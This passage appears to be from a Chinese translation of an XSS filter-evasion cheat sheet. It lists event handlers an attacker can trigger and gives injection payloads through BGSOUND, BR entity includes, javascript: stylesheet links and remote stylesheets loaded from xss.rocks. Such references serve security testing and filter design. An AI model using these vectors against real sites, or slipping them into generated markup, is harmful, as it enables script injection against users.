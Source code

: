 - `onScroll()`（用户需要滚动，或攻击者可以使用 `scrollBy()` 函数）
- `onSeek()`（当时间线设置为以除向前以外的任何方向播放时，`onReverse` 事件触发）
- `onSelect()`（用户需要选择一些文本 - 攻击者可以使用类似 `window.document.execCommand("SelectAll");` 的方式自动初始化）
- `onSelectionChange()`（用户需要选择一些文本 - 攻击者可以使用类似 `window.document.execCommand("SelectAll");` 的方式自动初始化）
- `onSelectStart()`（用户需要选择一些文本 - 攻击者可以使用类似 `window.document.execCommand("SelectAll");` 的方式自动初始化）
- `onStart()`（在每个 marquee 循环开始时触发）
- `onStop()`（用户需要按停止按钮或离开网页）
- `onStorage()`（存储区域发生变化）
- `onSyncRestored()`（用户中断元素按照时间线定义播放其媒体的能力）
- `onSubmit()`（需要攻击者或用户提交表单）
- `onTimeError()`（用户或攻击者将时间属性（如 dur）设置为无效值）
- `onTrackChange()`（用户或攻击者在播放列表中更改轨道）
- `onUndo()`（用户在撤销事务历史中向后移动）
- `onUnload()`（当用户点击任何链接或按下返回按钮，或攻击者强制点击时）
- `onURLFlip()`（当由 HTML+TIME（定时交互多媒体扩展）媒体标签播放的高级流媒体格式（ASF）文件处理嵌入在 ASF 文件中的脚本命令时触发）
- `seekSegmentTime()`（这是一个方法，用于定位元素段时间线上的指定点并从该点开始播放。段由一个重复周期的时间线组成，包括使用 AUTOREVERSE 属性的反向播放。）

### BGSOUND

```js
<BGSOUND SRC="javascript:alert('XSS');">
```

### & JavaScript 包含

```html
<BR SIZE="&{alert('XSS')}">
```

### 样式表

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 远程样式表

使用像远程样式表这样简单的方法，你可以包含你的 XSS，因为样式参数可以使用嵌入式表达式重新定义。这只在 IE 中有效。请注意，页面上没有任何内容表明包含了 JavaScript。注意：所有这些远程样式表示例都使用 body 标签，因此除非页面上有除向量本身之外的一些内容，否则它不会起作用，所以如果是一个空白页，你需要添加一个单字母使其生效：

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

### 远程样式表 第2部分

这与上面的工作方式相同，但使用 `<STYLE>` 标签而不是 `<LINK>` 标签。这个向量的轻微变体曾被用于黑入 Google Desktop。顺便说一句，如果向量后面紧接着 HTML 可以关闭它，你可以删除结束 `</STYLE>` 标签。如果在跨站点脚本攻击中不能使用等号或斜杠，这很有用，这在现实世界中至少发生过一次：

```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

### 远程样式表 第3部分
